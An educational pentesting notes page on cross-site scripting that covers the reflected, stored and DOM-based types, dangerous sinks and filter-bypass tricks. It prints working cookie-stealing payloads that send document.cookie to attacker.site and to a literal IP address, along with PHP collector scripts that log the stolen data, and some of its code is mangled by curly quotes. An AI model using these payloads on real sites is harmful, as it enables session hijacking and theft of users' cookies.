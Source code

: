 ```yaml
---
title: XSS attack - Cross-Site Scripting
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, webpentesting
---
```


# XSS attack - Cross-Site Scripting

**Cross-Site Scripting** attacks or **XSS** attacks enable attackers to inject client-side scripts into web pages. This is done through an URL than the attacker sends. Crafted in the URL, this js payload is injected.

```
# Quick steps to test XSS 
# 1. Find a reflection point (inspect source code and expand all tags to make sure that it's really a reflection point and it's not parsing your input)
# 2. Test with <i> tag
# 3. Test with HTML/JavaScript code (alert('XSS'))
```

But, of course, you may use an extensive repository of payloads. This [OWASP cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) is kind of a bible.


## Cross-Site Scripting XSS: reflected, persistent or DOM based

**Reflected attacks**: malicious payload is carried inside the request that the browser sends. You need to bypass the anti-xss filters. This way when the victim clicks on it it will be sending their information to the attacker (limited to js events).  

Example:

```
http://victim.site/seach.php?find=<payload>
```

**Persistent or stored XSS attacks**: payload is sent to the web server and then stored. The most common vector for these attacks are HTML forms that submit content to the web server and then display that content back to the users (comments, user profiles, forum posts…). Basically if the url somehow stays in the server, then, every time that someone accesses to it, they will suffer the attack.

**DOM based** XSS attacks: tricky one. This time the javascript file procedes from the server, and in that sense, the file is trusteable. Nevertheless, the file modifies changes in the web structure. [Quoting OWASP](https://owasp.org/www-community/attacks/DOM_Based_XSS): "DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an unexpected manner".


## Mitigation for cookie stealing

Depending on Enabling the HTTPOnly flag.


## Crafted payloads

```html
<script>alert(‘lala’)</script>

<script>alert(document.cookie)</script>

<script>
var i = new Image();
i.src = “http://attacker.site/log.php?q=”+document.cookie;
</script>
```

Now, this script save the cookie in a text file on the attacker site:

```php
	<?php
		$filename=”/tmp/log.txt”;
		$fp=fopen($filename, ‘a’);
		$cookie=$_GET[‘q`];
		fwrite($fp, $cookie);
		fclose($fp);
	?>
```

## Example of an attack

1. The attacker creates a get.php file and saves it into its server. 

2. This php file will store the data that the attacker server receives into a file.

3. This could be the content of the get.php file:

```php
<?php
	$ip = $_SERVER(‘REMOTE_ADDR’);
	$browser = $_SERVER(‘HTTP_USER_AGENT’);

	$fp = fopen(‘jar.txt’, ‘a’);

fwrite($fp, $ip . ‘ ‘ . $browser . “ \n”);
fwrite($fp, urldecode($_SERVER[‘QUERY_STRING’]) . “ \n\n”);
fclose($fp);
?>
```

4. Now in the web server the attacker achieve to store this payload:

```html
<script>
var i = new Image();
i.src = “http://attacker.site/get.php?cookie=”+escape(document.cookie);
</script>

# Or in one line:
<script>var i = new Image(); i.src = “http://10.86.74.7/moville.php?cookie=”+escape(document.cookie); </script>
```


## DOM-based cross-site scripting attack

To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.
The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object.

What is a sink? A sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if attacker-controlled data is passed to it. For example, the `eval()` function is a sink because it processes the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.

Summing up: you should avoid allowing data from any untrusted source to be dynamically written to the HTML document.

Tools: BurpSuite Web Vulnerability scanner.

Which sinks can lead to DOM-XSS vulnerabilities:

- document.write()
- document.writeln() 
- document.domain 
- element.innerHTML 
- element.outerHTML 
- element.insertAdjacentHTML 
- element.onevent


## Bypassing techniques

```
# Using uppercase and lowercase

# If first <script is removed, insert one script into another:
<scr<script>ipt>

# It single quotation (or even double quotes) is removed, you can use the function String.fromCharCode(number, number, number, number)
# 1. We lookk for a charcode calculator and enter our payload, for instance "lala" will be: 
34, 108, 97, 108, 97, 34
# 2. Them we put those numbers in our payload
<scRIpt>alert(String.fromCharCode(34, 108, 97, 108, 97, 34))</sCRiPt>

```




## Tools and payloads

+ See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).
+ Vectors (payload) regularly updated: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
+ OWASP Cheat Sheet series: XSS Filter Evasion Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
 






